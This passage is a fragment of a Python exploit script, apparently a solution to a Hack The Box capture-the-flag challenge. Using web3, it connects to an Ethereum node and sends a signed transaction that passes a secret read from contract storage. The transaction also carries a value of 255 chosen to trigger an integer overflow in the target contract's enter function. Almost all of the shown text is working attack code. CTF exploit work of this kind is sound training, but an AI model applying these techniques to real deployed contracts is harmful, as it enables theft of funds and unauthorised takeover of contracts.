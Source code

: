 ```python
        
        # Extract HTB{...} format
        if "HTB{" in flag_response:
            start = flag_response.find("HTB{")
            end = flag_response.find("}", start) + 1
            flag = flag_response[start:end]
            return flag
        
        return flag_response
    finally:
        s.close()

def exploit():
    # Connect to Ethereum node
    w3 = Web3(Web3.HTTPProvider(f"http://{HOST}:{RPC_PORT}"))
    if not w3.is_connected():
        print("Failed to connect to Ethereum node")
        return
    
    print(f"Connected to node. Block number: {w3.eth.block_number}")
    
    # Create contract interfaces
    target = w3.eth.contract(address=w3.to_checksum_address(TARGET_ADDRESS), abi=TARGET_ABI)
    setup = w3.eth.contract(address=w3.to_checksum_address(SETUP_ADDRESS), abi=SETUP_ABI)
    
    # Check player balance
    balance = w3.eth.get_balance(PLAYER_ADDRESS)
    print(f"Player balance: {w3.from_wei(balance, 'ether')} ETH")
    
    # The secret we found in storage slot 0 was 0xdeadfade
    passphrase_bytes = bytes.fromhex('deadfade')
    
    print(f"Trying secret: 0xdeadfade")
    
    # Build transaction with value=255 to trigger overflow
    tx = {
        'from': PLAYER_ADDRESS,
        'to': TARGET_ADDRESS,
        'value': 255,  # Causes integer overflow: 1+255=0 mod 256
        'gas': 200000,
        'gasPrice': w3.to_wei('20', 'gwei'),
        'nonce': w3.eth.get_transaction_count(PLAYER_ADDRESS),
        'data': target.functions.enter(passphrase_bytes).build_transaction()['data']
    }
    
    # Sign and send transaction
    signed_tx = w3.eth.account.sign_transaction(tx, PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.raw_transaction)
    
    print(f"Transaction hash: {tx_hash.hex()}")
    
    # Wait for transaction to be mined
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash, timeout=30)
    
    print(f"Transaction status: {'SUCCESS' if receipt.status == 1 else 'FAILED'}")
    
    if receipt.status == 1:
        print(f"✅ SUCCESS with passphrase: 0xdeadfade")
        
        # Call checkUsurper
        check_tx = {
            'from': PLAYER_ADDRESS,
            'to': TARGET_ADDRESS,
```
